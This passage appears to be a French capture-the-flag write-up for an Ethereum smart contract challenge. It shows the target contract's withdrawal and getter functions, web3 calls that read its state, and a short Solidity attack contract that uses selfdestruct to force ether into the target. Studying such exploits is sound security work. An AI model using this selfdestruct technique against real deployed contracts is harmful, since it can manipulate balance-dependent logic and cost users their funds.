 ```js
function withdrawMoney() public {
  require(msg.sender == contractOwner);
  if (now < collectFundsDate) {
    uint256 lostClientMoney = address(this).balance / 2;
    lostMoneyAmount = lostMoneyAmount + lostClientMoney;
    msg.sender.transfer(address(this).balance - lostClientMoney);
  } else {
    msg.sender.transfer(address(this).balance + 100 ether);
  }
}
```

Pas besoin de comprendre ce que fait exactement cette fonction. On sait juste qu'elle envoi des ethers,   mais seulement au propriétaire (`contractOwner`) du smart contract.

```js
function getStockExchangeAmount() public view returns (uint256 amount) {
  return stockExchangeAmount;
}
    
function dateOfCollection() public view returns (uint256 date) {
  return collectFundsDate;
}
```

`getStockExchangeAmount()`et `dateOfCollection()`sont des accesseurs.

```js
var abi = [{ "constant": true, ... }]; // ABI
var contractAddr = "0x93202aaa272f2eBd6DEC0e32864f943C4A7d3CF0"; // adresse d'instance
var contract = web3.eth.contract(abi).at(contractAddr);
```

```js
contract.getStockExchangeAmount((err,res)=>{console.log(err,res);});
--> 100

contract.dateOfCollection((err,res)=>{console.log(err,res);});
--> 2838556020
```

## Attack

Ici, l'attaque à mettre en place est `selfdestruct()`, qui va nous permettre de récupérer les ethers du smart contract.

> * [Self Destruct / Suicide](https://hackernoon.com/hackpedia-16-solidity-hacks-vulnerabilities-their-fixes-and-real-world-examples-f3210eba5148)
> * [Retirement Fund](https://medium.com/coinmonks/smart-contract-exploits-part-2-featuring-capture-the-ether-math-31a289da0427)
> * [Fallback function](https://solidity.readthedocs.io/en/v0.4.24/contracts.html#fallback-function)

```js
pragma solidity ^0.4.24;

contract Attack {
    constructor() public payable {
        require(msg.value == 1.1 ether);
    }
    
    function kill() public {
        selfdestruct(address(0x6f7b35Bcf2f96F4EECF7121A8d4d6CE4E74497eC));
    }
}
```
